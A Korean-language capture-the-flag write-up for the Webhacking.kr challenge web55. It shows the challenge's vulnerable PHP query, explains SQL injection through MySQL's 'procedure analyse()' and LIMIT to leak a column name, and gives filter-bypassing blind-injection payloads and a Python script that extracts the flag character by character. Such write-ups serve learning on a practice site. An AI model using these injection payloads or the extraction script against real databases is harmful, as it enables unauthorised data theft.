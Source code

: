 ```yaml
---
title : "Webhacking.kr - web55 (풀이봄)"
categories : [Wargame, Webhacking.kr]
tags: [mysql procedure analyse(), 풀이 봄]
---
```


## web55
<hr style="border-top: 1px solid;"><br>

```html
<body onmousemove=move()>
<img src=monster.jpg style="position:relative;left:1;top:1;" id=monster alt='oldzombie'>
<script>
function move(){
  monster.src = Math.floor(Math.random()*2)?"monster.jpg":"monster2.jpg";
  if(parseInt(monster.style.left)<event.x) monster.style.left=parseInt(monster.style.left)+1;
  if(parseInt(monster.style.left)>event.x) monster.style.left=parseInt(monster.style.left)-1;
  if(parseInt(monster.style.left)<event.y) monster.style.top=parseInt(monster.style.top)+1;
  if(parseInt(monster.style.left)<event.y) monster.style.top=parseInt(monster.style.top)-1;
  if(parseInt(monster.style.left)<event.x && parseInt(monster.style.top)<event.y) {monster.style.left=parseInt(monster.style.left)+1;monster.style.top=parseInt(monster.style.top)+1; }
  if(parseInt(monster.style.left)>event.x && parseInt(monster.style.top)>event.y) {monster.style.left=parseInt(monster.style.left)-1;monster.style.top=parseInt(monster.style.top)-1; }
  if(parseInt(monster.style.left)==event.x && parseInt(monster.style.top)==event.y) {alert('GAME OVER'); sfrm.submit(); }
  if(event.x<=0) sfrm.score.value=0;
  if(event.y<=0) sfrm.score.value=0;
  sfrm.mx.value=event.x;
  sfrm.my.value=event.y;
  sfrm.score.value++;
}
</script>
<form method=post name=sfrm>
Score : <input type=text name=score value=0 readonly style=border:0>
<input type=text name=mx readonly style=border:0;font:10>
<input type=text name=my readonly style=border:0;font:10><br>
</form>
<a href=rank.php>rank</a>
```
```php
rank.php

mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

풀이를 봐버림..

rank.php에서 보여지는 쿼리를 예상해보면 ```select id, score from chall55 where score={$_GET['score']}```

mysql에는 procedure의 기본 값으로 ```analyse()```가 있음.

```analyse()```은 질의 결과를 검사하고 테이블 크기를 줄이는 데 도움이 될 수 있는 각 열에 대해 최적의 데이터 유형을 제안하는 결과의 분석을 반환함.

select 문 뒤에 추가해서 사용 가능 함.
: <a href="https://dev.mysql.com/doc/refman/5.6/en/procedure-analyse.html" target="_blank">Analyse()</a>

<br>

대략 이런식으로 나오는 듯함.

<br>

```
mysql> select * from user where id='admin' limit 1 procedure analyse();

| Field_name| Min_value | Max_value | Min_length | Max_length | Empties_or_zeros | Nulls | Avg_value_or_avg_length | Std | Optimal_fieldtype|

| user.user.id| admin| admin | 5 | 5 |0 | 0 | 5.0000 | NULL | ENUM('admin') NOT NULL |

출처: https://tempuss.tistory.com/entry/Limit-절에서의-SQL-Injection [Tempus]
```

<br>

field_name은 ```DB명.테이블명.컬럼명```으로 표시함.

```procedure analyse()```를 이용한 sql injection 기법 
: <a href="https://www.hides.kr/284" target="_blank">hides.kr/284</a>


mysql XML Functions 
: <a href="https://dev.mysql.com/doc/refman/5.6/en/xml-functions.html" target="_blank">dev.mysql.com/doc/refman/5.6/en/xml-functions.html</a>

<br>

rank.php에서 score 값에 ```1 procedure analyse()```를 치면 ```webhacking.chall55.id``` 라는 ```DB명.테이블명.컬럼명```을 볼 수 있음.

근데 우리는 id 컬럼이 아닌 flag가 들어있는 컬럼을 확인하고 싶음.

보여지는 값을 바꾸려면 limit 함수를 사용해야 함.

limit 함수에는 아래와 같이 두 개의 옵션(procedure, into)을 사용 가능함.

<br>

```
 [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]

출처: https://tempuss.tistory.com/entry/Limit-절에서의-SQL-Injection [Tempus]
```

<br>

따라서 limit 함수를 이용해서 하면 ```?score=12 limit 2,1 procedure analyse()```
: ```id : webhacking.chall55.p4ssw0rd_1123581321```

이제 위의 컬럼에 있는 flag 값을 뽑아내야 함.

score에 필터링 되어있는게 있음. 
: ```select, substr, mid, ', 등```

<br>

if문 필터링이 되어있지 않아서 if로 접근해서 풀어야 함.

```select id, score from chall55 where score=if(p4ssw0rd_1123581321 like 0x465F25,1,2)```
: -> true가 되어서 score=1 -> Piterpan
: -> false일 땐 jandi

<br>

```python
import requests
import string

url='https://webhacking.kr/challenge/web-31/rank.php'
headers={'Content-Type': 'application/x-www-form-urlencoded'}
cookies={'PHPSESSID' : '[redacted]'}

text=string.ascii_lowercase+string.digits+"!#$&()*+,-./:;<=>?@[\]^`{|}~"
flag='FLAG{'
hex_flag='0x464C41477B'

for i in range(1,100) :
    for j in text :
        hex_text=hex(ord(j))[2:]
        payload={'score':'if(p4ssw0rd_1123581321 like '+hex_flag+hex_text+'5f25,1,2)'}
        res=requests.get(url, params=payload, headers=headers, cookies=cookies)
        print('payload :',flag+j)
        if "Piterpan" in res.text :
            if(j == '\\'):
                j='_'
                hex_text='5f'
            hex_flag+=hex_text
            flag+=j
            print("flag :",flag) # FLAG{easy_peasy_lemon_squeezy!
            break
```

<br>

<br><br>
<hr style="border: 2px solid;">
<br><br>
